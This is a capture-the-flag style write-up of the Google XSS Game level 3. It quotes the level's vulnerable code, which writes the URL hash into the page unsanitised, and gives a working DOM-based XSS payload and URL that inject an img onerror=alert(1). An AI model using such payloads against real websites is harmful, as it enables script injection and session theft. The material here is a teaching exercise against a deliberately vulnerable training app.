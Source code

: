 # Google XSS Game – Level 3: DOM-Based XSS via Location Hash

---

## 🎯 Mission Description  
This level demonstrates how JavaScript functions can act as **hidden execution sinks**, especially when user-controlled data is passed into the DOM using high-level APIs.  
In this case, the input comes from the **URL fragment (`#`)**, which is parsed and rendered into the page.

---

## 🎯 Mission Objective  
Inject a script that triggers `alert(1)` in the app.  
⚠️ You can’t input anything through the interface — the only way in is **manipulating the URL hash** (`#`).

---

## 🧪 Steps (My Approach)

1. 🔍 Viewed the page source and found the following code:

   ```javascript
   window.onload = function() { 
     chooseTab(unescape(self.location.hash.substr(1)) || "1");
   }

   function chooseTab(num) {
     var html = "Image " + parseInt(num) + "<br>";
     html += "<img src='/static/level3/cloud" + num + ".jpg' />";
     $('#tabContent').html(html);
   }
   ```

   → This shows that `location.hash` is passed directly into `innerHTML` — no sanitization. Vulnerable to **DOM-Based XSS**.

---

2. ✅ Crafted the following payload:
   
   ```
   #3+".jpg' /><img src=x onerror=alert(1)><!--
   ```

   🔗 Full URL:

   ```
   https://xss-game.appspot.com/level3/frame#3+".jpg'%20/><img%20src=x%20onerror=alert(1)><!--
   ```

   💥 Result:
   - The injected `<img>` tag is rendered and the `onerror` executes `alert(1)`
   - Mission solved!

---

## ✅ Final Payload

```html
#3+".jpg' /><img src=x onerror=alert(1)><!--
```

---

## 🧠 Notes  
- The input comes from `location.hash`, which is parsed and injected via `.innerHTML`
- No encoding or filtering is applied  
- A classic **DOM-Based XSS** case  
- You need to break the string and inject valid HTML with an event handler (e.g. `onerror`)
- No user input field — injection must be done in the **URL hash**

---

## ✅ Status: Solved 🎉

